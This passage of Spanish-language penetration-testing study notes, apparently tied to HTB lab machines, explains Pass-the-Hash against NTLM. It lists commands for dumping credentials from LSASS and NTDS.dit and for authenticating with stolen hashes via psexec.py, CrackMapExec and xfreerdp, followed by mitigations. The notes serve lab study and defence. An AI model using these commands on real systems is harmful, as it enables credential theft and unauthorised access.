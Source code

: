 ### Máquinas HTB para practicar
- **Forest** (Easy) - Múltiples usuarios vulnerables
- **Sauna** (Easy) - Combinación con enumeración

---

## 3. PASS-THE-HASH (NTLM)

### ¿Por qué ocurre?
- **Diseño de protocolo:** NTLM trata el hash como credencial primaria
- **Autenticación:** El hash NTLM puede generar respuestas válidas sin password
- **Persistencia:** Hashes permanecen válidos hasta cambio de contraseña

### Mecánica del ataque
1. **Obtención de hash:** LSASS dumping, NTDS.dit, memoria
2. **Reutilización:** Usar hash para autenticación NTLM
3. **Acceso:** Autenticarse como usuario sin conocer password claro

### Sistemas afectados
- **Todos los sistemas Windows** que usan NTLM
- **Servicios:** SMB, RDP, WinRM, MSSQL
- **Limitado pero posible** en entornos modernos con configuraciones específicas

### Detección y Explotación
**Localización:**
```bash
# Extracción de hashes
secretsdump.py -just-dc-ntlm dominio.com/usuario:password@DC_IP

# Mimikatz (desde máquina comprometida)
sekurlsa::logonpasswords

# Desde memoria LSASS
procdump.exe -ma lsass.exe lsass.dmp
```

**Explotación:**
```bash
# Pass-the-Hash con Impacket
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:NTLM_HASH dominio.com/usuario@TARGET_IP

# CrackMapExec
crackmapexec smb 10.10.10.0/24 -u usuario -H NTLM_HASH

# RDP con PtH
xfreerdp /v:TARGET_IP /u:usuario /pth:NTLM_HASH
```

### Prevención/Mitigación
- **Restringir NTLM:** Group Policy para deshabilitar NTLMv1
- **Credential Guard:** Habilitar en Windows 10/Server 2016+
- **LAPS:** Local Administrator Password Solution
- **Monitoreo:** Eventos 4624 (logon type 3) con NTLM
- **Aplicar SMB signing** para prevenir relay

